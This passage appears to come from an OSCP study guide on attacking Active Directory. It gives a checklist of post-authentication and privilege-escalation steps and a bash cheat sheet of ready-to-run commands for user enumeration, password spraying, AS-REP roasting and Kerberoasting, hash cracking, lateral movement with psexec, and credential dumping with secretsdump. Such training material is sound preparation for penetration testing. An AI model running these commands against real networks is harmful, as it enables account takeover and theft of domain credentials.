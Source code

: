 - [ ] **Post-Authentication** (2 hours)
  - [ ] Kerberoasting
  - [ ] BloodHound collection and analysis
  - [ ] Credential dumping
  - [ ] Lateral movement planning
  
- [ ] **Privilege Escalation** (1 hour)
  - [ ] ACL abuse paths
  - [ ] Delegation attacks
  - [ ] DCSync capabilities

### Essential AD Commands Cheat Sheet
```bash
# Quick domain discovery
nmap -p 88,389,636,3268 <target-range>

# User enumeration
enum4linux -U <target>
kerbrute userenum -d <domain> users.txt --dc <dc-ip>

# Password spray
kerbrute passwordspray -d <domain> users.txt Password123! --dc <dc-ip>

# ASREPRoast
python3 GetNPUsers.py <domain>/ -usersfile users.txt -format hashcat

# Kerberoast
python3 GetUserSPNs.py <domain>/<user>:<pass> -request -format hashcat

# Hash cracking
hashcat -m 18200 asrep.hash rockyou.txt  # ASREPRoast
hashcat -m 13100 kerb.hash rockyou.txt   # Kerberoast

# Lateral movement
crackmapexec smb <range> -u <user> -p <pass>
python3 psexec.py <domain>/<user>:<pass>@<target>

# Domain admin
python3 secretsdump.py <domain>/<user>:<pass>@<dc-ip>
```

Remember: Active Directory in OSCP is about methodical enumeration and understanding common attack paths. Practice the fundamentals until they're second nature, then focus on chaining techniques together efficiently!
